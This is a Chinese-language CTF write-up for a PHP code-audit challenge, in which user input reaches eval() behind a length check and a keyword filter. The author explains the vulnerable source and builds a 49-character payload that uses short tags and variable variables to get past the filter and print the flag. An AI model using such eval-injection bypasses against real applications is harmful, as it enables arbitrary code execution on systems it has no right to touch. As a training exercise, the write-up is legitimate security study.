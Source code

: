# 冬至红包

![](https://bulabula-1305079562.cos.ap-guangzhou.myqcloud.com/img/1618662726488-image-20210119101414977.png)

我靠，这个可以领红包

亏大了

现在才做

![](https://bulabula-1305079562.cos.ap-guangzhou.myqcloud.com/img/1618662742814-image-20210119101503876.png)

进入题目

代码审计啊

```php
<?php
    error_reporting(0);
    require __DIR__.'/flag.php';

    $exam = 'return\''.sha1(time()).'\';';

    if (!isset($_GET['flag'])) {
        echo '<a href="./?flag='.$exam.'">Click here</a>';
    }
    else if (strlen($_GET['flag']) != strlen($exam)) {
        echo '长度不允许';
    }
    else if (preg_match('/`|"|/.|////|/(|/)|/[|/]|_|flag|echo|print|require|include|die|exit/is', $_GET['flag'])) {
        echo '关键字不允许';
    }
    else if (eval($_GET['flag']) === sha1($flag)) {
        echo $flag;
    }
    else {
        echo '马老师发生甚么事了';
    }

    echo '<hr>';

    highlight_file(__FILE__);
```

这里的代码意思是没有传入flag值得时候会显示Click here得链接

如果点了链接就会传入变量$exam，就是sha1编码过后得当前时间

还会判断传入的flag参数的长度，如果长度不弱等于变量$exam就打印'长度不允许'

再正则匹配过滤掉一些字符还有一些关键字

再判断GET请求传入的flag值绝对等于sha1值得flag

就打印flag，否则就打印'马老师发生了什么事'

-----------------------------------



因为不知到flag是什么所以不可能传如的值绝对等于flag的sha1值

所以要另求他法

这里有一个eval的函数

这个函数可以执行任意php代码漏洞

可以通过打印变量$flag来获取flag

但是这里过滤了echo和print几个打印的函数

也过滤了flag这个单词

emmmmmm

______________



没头绪了一段时间

在网上找到了一个另类的打印方式

当php开启短标签后

能正常解析php代码

然后php还有一个[语法糖]([语法糖_百度百科 (baidu.com)](https://baike.baidu.com/item/语法糖))

```php
<?=$a;?>
```

这样可以打印变量

```php
  1 <?php $a = 'flag'; ?>
  2 <?= $a ?>
```

这里执行的结果就是

![](https://bulabula-1305079562.cos.ap-guangzhou.myqcloud.com/img/1618662770847-image-20210119114845901.png)







```php
  1 <?php
  2 $b = 'hello';
  3 eval($_GET['a']);
```

这里执行结果就是

![](https://bulabula-1305079562.cos.ap-guangzhou.myqcloud.com/img/1618662785377-image-20210119151421204.png)

这里传参过去执行的话要闭合原来的这个<?php标签，不然会报错

所以开始构造payload

```php
$a=alag;$a{0}=f;1111111111111111111111;?><?=$$a?>
```

因为过滤了flag这个词

所以给一个变量$a值设为alag

然后使用$a{0}=f;把第一个a给变成f

让变量$a的值变为flag，添加一些垃圾字符，再闭合<?php标签，再用短标签使用可变变量$$a让变量$a变为$flag，就打印了flag

添加垃圾字符的原因是因为对比的变量$exam长度就是49

所以也要让payload也变成49

```php
  1 <?php
  2 $b = 'return\'' . sha1(time()) . '\';';
  3 echo strlen($b);
```

执行结果就是

![](https://bulabula-1305079562.cos.ap-guangzhou.myqcloud.com/img/1618662799899-image-20210119152457359.png)



运行payload就得到flag了

![](https://bulabula-1305079562.cos.ap-guangzhou.myqcloud.com/img/1618662821840-image-20210119152832149.png)
